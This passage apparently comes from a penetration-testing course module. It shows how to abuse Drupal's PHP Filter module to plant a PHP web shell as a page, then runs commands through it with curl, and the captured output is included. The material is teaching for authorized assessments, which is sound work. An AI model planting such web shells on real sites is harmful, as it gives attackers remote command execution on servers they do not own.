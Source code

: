 * * *

## Leveraging the PHP Filter Module

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

![](https://academy.hackthebox.com/storage/modules/113/basic_page.png)

We can now create a page with a malicious PHP snippet such as the one below. We named the parameter with an md5 hash instead of the common `cmd` to get in the practice of not potentially leaving a door open to an attacker during our assessment. If we used the standard `system($_GET['cmd']);` we open up ourselves up to a "drive-by" attacker potentially coming across our web shell. Though unlikely, better safe than sorry!

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

```

![](https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png)

We also want to make sure to set `Text format` drop-down to `PHP code`. After clicking save, we will be redirected to the new page, in this example `http://drupal-qa.inlanefreight.local/node/3`. Once saved, we can either request execute commands in the browser by appending `?dcfdd5e021a869fcc6dfaef8bf31377e=id` to the end of the URL to run the `id` command or use `cURL` on the command line. From here, we could use a bash one-liner to obtain reverse shell access.

```shell
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.

```shell
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz

```

Once downloaded go to `Administration` \> `Reports` \> `Available updates`.
